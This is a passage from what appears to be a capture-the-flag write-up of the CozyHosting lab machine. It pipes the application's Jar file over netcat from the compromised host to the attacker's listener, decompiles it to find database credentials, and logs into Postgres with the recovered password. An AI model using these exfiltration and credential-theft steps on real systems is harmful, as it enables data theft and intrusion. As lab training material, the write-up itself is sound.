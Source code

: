 ```
oxdf@hacky$ nc -lnvp 443 > cloudhosting-0.0.1.jar
Listening on 0.0.0.0 443

```

On CozyHosting, I’ll send the Jar into `nc` back to my host:

```
app@cozyhosting:/dev/shm$ cat cloudhosting-0.0.1.jar | nc 10.10.14.6 443

```

This hangs, but on my host it shows a connection:

```
oxdf@hacky$ nc -lnvp 443 > cloudhosting-0.0.1.jar
Listening on 0.0.0.0 443
Connection received on 10.10.11.230 48534

```

After a few seconds, I’ll kill it on my side, and make sure the `md5sum` of the two files matches.

I’ll I’ll download the [jd-gui](https://java-decompiler.github.io/) Jar file and run it with `java -jar jd-gui-1.6.6.jar`, opening the Jar file. The `htb.cloudhosting.CozyHostingApp` class just starts the Spring Boot application:

![image-20240227124935411](https://0xdf.gitlab.io/img/image-20240227124935411.png)

The `application.properties` file is right there as well, with the DB info:

![image-20240227125049373](https://0xdf.gitlab.io/img/image-20240227125049373.png)

### Database

I’ll connect to Postgres using the `psql` utility installed on CozyHosting:

```
app@cozyhosting:/$ PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#

```

There is really one interesting database:

```
postgres=# \list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

```
